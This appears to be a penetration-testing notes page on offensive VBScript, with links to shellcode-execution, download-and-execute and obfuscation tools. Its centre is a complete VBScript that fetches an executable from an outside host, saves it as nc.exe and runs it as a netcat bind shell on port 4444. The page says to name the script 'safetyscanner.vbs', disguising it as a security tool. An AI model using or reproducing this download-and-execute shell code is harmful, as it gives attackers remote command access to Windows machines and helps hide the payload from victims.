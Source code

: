 # ⭕ VBS

when a VBScript is executed from the command line (cmd.exe), by default it uses wscript (GUI). cscript.exe can be launched explicitly, like this:

```
cscript console.vbs
```

## <mark style="color:red;">shellcode execution with VBScript</mark>

{% embed url="https://github.com/nixawk/pentest-wiki/blob/master/4.Post-Exploitation/Windows_ActiveDirectory/Execute_metasploit_vbs_payload_in_cmd_shell.md" %}

## <mark style="color:red;">VBScript Download & Execute</mark>

Downloads, decode, decrypt and executes a VBScript using cmd and mshta.

{% embed url="https://github.com/AdiMarianMutu/MSHTA-VBS-download-and-execute" %}

#### <mark style="color:green;">without obfuscation:</mark>

Put the following lines into a text file. Name it safetyscanner.vbs and put on desktop.

```vba
dim http_obj
dim stream_obj
dim shell_obj
 
set http_obj = CreateObject("Microsoft.XMLHTTP")
set stream_obj = CreateObject("ADODB.Stream")
set shell_obj = CreateObject("WScript.Shell")
 
URL = "http://www.mikemurr.com/example.exe" 'Where to download the file from
FILENAME = "nc.exe" 'Name to save the file (on the local system)
RUNCMD = "nc.exe -L -p 4444 -e cmd.exe" 'Command to run after downloading
 
http_obj.open "GET", URL, False
http_obj.send
 
stream_obj.type = 1
stream_obj.open
stream_obj.write http_obj.responseBody
stream_obj.savetofile FILENAME, 2
 
shell_obj.run RUNCMD
```

## <mark style="color:red;">Obfuscation</mark>

{% embed url="https://github.com/DoctorLai/VBScript_Obfuscator" %}

{% embed url="https://ther10tz.github.io/Simple-VBScript-Obfuscator" %}

{% embed url="https://github.com/kkar/VBS-Obfuscator-in-Python" %}

## <mark style="color:red;">De-obfuscation</mark>

{% embed url="https://github.com/sbruyere/vbeDecoder" %}
